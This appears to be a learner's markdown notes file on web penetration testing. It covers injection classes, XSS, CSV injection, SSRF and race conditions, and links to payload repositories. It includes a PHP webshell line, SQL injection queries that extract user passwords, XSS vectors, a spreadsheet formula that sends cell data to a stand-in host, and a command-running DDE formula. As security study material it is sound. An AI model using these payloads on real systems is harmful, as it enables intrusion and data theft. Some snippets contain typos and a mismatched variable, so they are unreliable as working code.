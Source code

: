 # bug bounty reference

https://github.com/ngalongc/bug-bounty-reference
# web-pen-basic
understand





 - Command injection is "string to command".(;,||,&&, are used to join command.The `exec()` function is for code execution.
 - Code injection is "string to code".("." is used to join code)(`eval("echo "....)` function).Using " , ' for testing.
 - Directory traversal  is  "file to code".
 -  log poison
 - Using burp suit by replacing`<?php system($_GET[cmd]);`
 -  LFI , RFI(file=www.google.com or webshell)

File inclusion
---
 `include()` function 
 1. Command injection`echo exec("whoami")`
 2.                    `system("whoiam")`
 3. Blind command injection`exec("whoami")`
 4. [command payload](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)
 5. Searching
            Regular expression security cheatsheet

SQL Injection
--

 1.union based(echo)
 - users where id=0 or 1=1     
 
 - testing numbers of columns with "order by"   
 -    union select,database(),version()   
 

     -1 union select 1,2,3,concat(table_name) from information_schema.tables where table_schema=database()    
     -1 union select 1,2,3,concat(column_name) from information_schema.columns where table_schema=database() and table_name='users' //group_concat  
    
     -1 union select 1,2,3,concat(username,password) from users


  
 1. Error base(//echo)
       
 2. Blind based (//mysqli_report(MYSQLI_REPORT_ERROR |

MYSQLI_REPORT_STRICT))

     

 

 
 - Time based blind(1 -sleep(5))

    

 - boolean based blind(id=1 and 1=2) 
 ` $sql ="SELECT * FROM users WHERE id="$uid""`
 `$sql ="SELECT * FROM users WHERE id='$uid'"`
  `$sql ="SELECT * FROM users WHERE id=('$uid')"`

https://github.com/LunaM00n/Free-WebSec-Class/blob/master/Lectures/06.SQL%20Injection.md

Same Original Method Execution
--

 - html injection be
 - iframe does not allow taking script from another site.
 - [REF](https://github.com/LunaM00n/Free-WebSec-Class/blob/master/Lectures/07.Some.md)
 - universal xss

## CSV Injection
Reference
```
https://www.contextis.com/en/blog/comma-separated-vulnerabilities
https://blog.zsec.uk/csvhub/
```
Formulas  
```
=SUM(A1,A2)

```
Data Exfiltration
```
=HYPERLINK("http://host?leak="&A1&A2,"Error: please click for further information")
```
Client Side RCE ( Trust Relationships )
```
=cmd|' /C calc'!A0
```
Powersploit and Metasploit Client Side Payloads

```https://github.com/PowerShellMafia/PowerSploit ```

```https://www.offensive-security.com/metasploit-unleashed/client-side-exploits/ ```

Cross-site Request Forgery(CSRF)
--

 - Using get method by viewing uri
 - Payload
 `https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection`


Server Side Request Forgery(SSRF)
---

 - Have server ,client
 - server_address/ssrf.php?url=http://localhost/intranet.php
 
 
 
      <?php
    echo $_GET['name']
    ?> 
 

 
XSS
--
 1. Cookies can be stolen.
 2. Java script execution 
 3. Advanced handler like
 4. Obfuscation
 5. Bypass or Escape
 6. Avoiding
 7. HtmlSpecialCharacter works encoding
 8. After hash sign,browser encode it.
 9. can steal cookies 
 10.can execute script when you sent to other users. 
 
 `<img src=x onerror=alert(1)>`

`<script> prompt(1)</script>`

`<svg onload=alert(1) `

`<a onclick=alert(1)>`

`<body onload=alert(1)> `

[cheatsheethtml5](https://html5sec.org/)

**DOM**

[public_firing](https://public-firing-range.appspot.com/)

**
Relative Path Overwrite(RPO)**
 
[RPO](http://www.thespanner.co.uk/2014/03/21/rpo/)
[REF](https://blog.innerht.ml/)

XXE
--

>xpath or xxe (xml external entity )
>

[play xxe](https://pentesterlab.com/exercises/play_xxe/course)




Web Cache Poisoning
-

 - Using burp suit para miner
 -` Get\?`
 
 HTTP Host Header Injection
 --
 DOM
 --
 
 - location.hash
 - https://public-firing-range.appspot.com/

Race Condition(TOTUC)
--

 - Transfer each other
 - Other will get more than the amount of transferred
 
`import datetime
import requests
from threading import Thread

def intruder(i):
	reponse=requests.get("http://127.0.0.1/webpen/race_condition/racer.php?test")
	print "Thread #{} - {}".format(i,response.text)

for i in range(20):
   	t=Thread(target=intruder,args=(i,))
	t.start()`

 - https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use
 - https://defuse.ca/race-conditions-in-web-applications.htm
 - https://sakurity.com/blog/2015/05/21/starbucks.html?source=post_page-------------------------

PHP Object Injection
--

 - Object Oriented Programming(OOP)
 - Magic Method(auto call)

Server Side Template Injection
---

Document Object Model
--
Relative Path  Overwrite
--

Reference
--

> [payload](https://github.com/swisskyrepo/PayloadsAllTheThings)
> https://github.com/LunaM00n/Free-WebSec-Class/

